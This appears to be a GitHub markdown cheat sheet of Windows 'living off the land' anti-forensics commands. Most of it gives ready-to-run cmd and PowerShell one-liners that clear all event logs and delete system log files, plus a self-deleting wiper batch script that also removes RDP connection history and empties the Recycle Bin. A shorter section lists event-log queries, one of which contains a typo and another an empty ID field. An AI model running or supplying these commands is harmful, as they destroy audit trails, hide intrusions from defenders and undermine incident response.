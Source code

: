 # Living off the Land

## 01 - Command Prompt

- List logs.

`C:\> wevtutil el`

- Clear logs in a specific category.

`C:\> wevutil cl <logname>`

- Delete all event logs.

`C:\> for /f "tokens=*" %1 in ('wevtutil.exe el') do wevtutil.exe cl "%1"`

- Delete all logs.

`C:\> del %WINDIR%\*.log /a /s /q /f`

- A batch script to wipe the files.

```
C:\> type wiper.bat
@echo off
timeout /T 5
for /f "tokens=1,2*" %%V in ('bcdedit') do set adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /f "tokens=*" %%G in ('wevtutil.exe el') do (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
echo clearing %1
wevtutil.exe cl %1

goto :eof
:noAdmin
echo You must run this script as an Administrator!
echo.
:theEnd
rd /s /q %systemdrive%\$RECYCLE.BIN
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
cd %userprofile%\documents\
attrib Default.rdp -s -h
del Default.rdp
del %0
```

## 02 - Powershell

- Delete all event logs.

```
PS C:\> Get-WinEvent -ListLog * | where {$_.RecordCount} | ForEach-Object -Process { [System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog($_.LogName) }
```

- Delete specific event logs.

```
PS C:\> Clear-Eventlog -Log Application,Security,System

PS C:\> Clear-Eventlog -Log Application,Security,System -Confirm

PS C:\> Get-WinEvent -ListLog Application,Security,System -Force | % { Wevtutil.exe cl $_.Logname }
```

TODO: Get all event logs to each specific event category

`PS C:\> Get-WinEvent -FilterHashTable @{LogName="Application"; ID=}`

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Microsoft-Windows-Terminal-Services-RemoteConnectionManager/Operational"; ID=1149}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Microsoft-Windows-Powershell/Operational"; ID=4100,4103,4104,}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Microsoft-Windows-TerminalServices-Gateway"; ID=400,800}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Security"; ID=1102,4624,4625,4634,4647,4648,4657,4658,4661,4663,4672,4674,4688,4697,4720,4722,4732,4738,4768,4769,4776,4778,4779,4782,5712}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="System"; ID=7030,7036,7045,10000,100001,20001,20002,20003,24756,24577,24579}
```

---
## References

- [Event Log Tampering Part 1 Disrupting The Eventlog Service](https://svch0st.medium.com/event-log-tampering-part-1-disrupting-the-eventlog-service-8d4b7d67335c)

- [Microsoft Powershell Management Powershell 7.2](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/remove-event?view=powershell-7.2)

- [Microsoft Powershell Management Powershell 5.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-eventlog?view=powershell-5.1)